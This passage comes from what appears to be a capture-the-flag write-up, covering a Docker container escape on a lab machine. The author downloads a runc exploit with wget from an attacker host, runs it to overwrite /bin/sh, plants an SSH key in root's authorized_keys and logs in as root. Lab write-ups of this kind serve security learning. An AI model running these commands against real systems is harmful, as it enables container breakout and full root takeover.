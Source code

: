 

    noah@thenotebook:~$ sudo docker exec -it webapp-dev01 bash
    root@97f932ea172b:/opt/webapp# wget 10.10.14.19/cve-2019-5673
    --2021-07-22 02:17:33--  http://10.10.14.19/cve-2019-5673
    Connecting to 10.10.14.19:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2140295 (2.0M) [application/octet-stream]
    Saving to: ‘cve-2019-5673’

    cve-2019-5673                100%[==============================================>]   2.04M  4.21MB/s    in 0.5s    

    2021-07-22 02:17:34 (4.21 MB/s) - ‘cve-2019-5673’ saved [2140295/2140295]



I'll make it executable, and run it:



    root@97f932ea172b:/opt/webapp# chmod +x cve-2019-5673 
    root@97f932ea172b:/opt/webapp# ./cve-2019-5673 
    [+] Overwritten /bin/sh successfully



It hangs after reporting that `/bin/sh` was successfully overwritten.
It's waiting for someone to try to run `runc`. In the second window,
I'll run `docker exec` again:



    noah@thenotebook:~$ sudo docker exec -it webapp-dev01 /bin/sh
    No help topic for '/bin/sh'



It returns a weird error, but as soon as I run it, more prints in the
first window:



    root@97f932ea172b:/opt/webapp# ./cve-2019-5673 
    [+] Overwritten /bin/sh successfully
    [+] Found the PID: 73
    [+] Successfully got the file handle
    [+] Successfully got write handle &{0xc000460060}



My SSH key was just written to root's `authorized_keys` file, and I can
connect over SSH:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.230
    ...[snip]...
    root@thenotebook:~#



And grab `root.txt`:


